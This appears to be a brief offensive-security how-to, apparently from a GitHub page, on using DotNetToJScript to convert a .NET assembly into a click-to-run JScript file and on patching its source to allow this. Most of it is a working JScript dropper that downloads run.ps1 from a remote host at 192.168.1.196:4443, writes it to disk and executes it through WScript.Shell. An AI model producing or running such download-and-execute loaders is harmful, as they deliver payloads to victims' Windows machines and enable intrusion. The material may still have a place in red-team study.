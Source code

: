 # How to use DOTNET to JScript

** Usage: DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js **

*** This will make a .js file that if associated with wscript with execute when clicked.  This is not a default setting ***.
*** Seems like everything in Jscript uses ActiveXObject ***

[It is worth mentioning that Jscript supports proxy configuration via the setProxy method.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29)


<br><br><br><br>



### Configuring DotNetToJscript 

Before moving forward, we first need to comment out the following portion of the Program.cs source code file present under the DotNetToJScript project.  

At line 154, we need to comment out the following if-block.  

<img width="710" height="122" alt="image" src="https://github.com/user-attachments/assets/f0b6156a-0df2-478a-a2b7-34162afbd226" />




#### Basic Jscript runner that will download a file.  Flagged immediately.

``` Jscript

var url = "http://192.168.1.196:4443/run.ps1"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("run.ps1", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("run.ps1");

```
